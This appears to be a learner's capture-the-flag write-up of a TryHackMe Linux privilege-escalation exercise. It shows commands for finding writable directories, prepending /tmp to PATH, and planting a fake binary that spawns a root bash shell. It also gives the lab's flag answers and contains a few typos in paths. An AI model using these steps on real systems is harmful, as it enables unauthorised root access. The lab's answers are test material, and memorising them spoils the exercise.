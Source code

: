 ## Privilege Escalation PATH

### Notes:
- exploiting path folders which we have write access to. 
- see if you have write access to PATH so you can add folders where you have write access to. 
  - binaries run in path are usually run under root privileges. 
  - copy binary in the folder indicated in path then run a binary containing "/bin/bash" to create a root enabled shell. 

### What is the odd folder you have write access for?
1. Run the following command to find write acccess for your user. 

```
find / -writable 2>/dev/null | cut -d "/" -f 2 | sort -u 
```

Running it doesn't provide the answer we need let's go 1 level deeper: 
```
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
```

![Screenshot 2024-02-09 at 8 08 11 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/5fccce0a-4d79-4844-b615-9bb3889e477b)



**Answer: home/murdock**


### What is the content of the flag6.txt file?
1. First run the following to see the path:
```
echo $PATH
```
![Screenshot 2024-02-09 at 9 22 52 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/0711b158-15d7-4175-b250-6ff42a25ad1a)

2. Let's see if we have any write permissions in any of the $PATH directories.
```
find / -writable  2>/dev/null | cut -d "/" -f 2,3,4 | grep usr | sort -u
```
![Screenshot 2024-02-09 at 9 45 36 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/a296eb75-af03-4ba2-b1c1-4ab7b0fa3fe4)

3. Unfortunately the writable usr/lib/systemd is not included in the path.
4. We will append /tmp in the PATH by running the following command:
```
export PATH=/tmp:$PATH
```
5. Execute the following command:
```
cd /tmp
echo "/bin/bash" > thm
chmod 777 thm
```

6. Execute the following which will grant you a root access bash terminal
```
cd /home/murdoch/
/.test
```

7. Execute `cat /home/matt/flag6.txt`
![Screenshot 2024-02-09 at 11 13 47 PM](https://github.com/niccololampa/cyber-security-notes/assets/37615906/d2949442-0b6c-4613-81cd-e560d6d72012)

**Answer: THM-736628929**
